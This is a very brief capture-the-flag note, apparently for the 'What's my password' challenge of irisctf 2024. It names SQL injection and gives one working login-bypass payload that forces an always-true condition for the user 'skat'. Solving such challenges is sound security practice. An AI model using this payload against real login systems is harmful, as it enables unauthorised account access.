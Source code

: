 #What's my password - irisctf 2024

SQL injection 

example working payload was (\" or 1=1 AND user = \"skat\" -- )
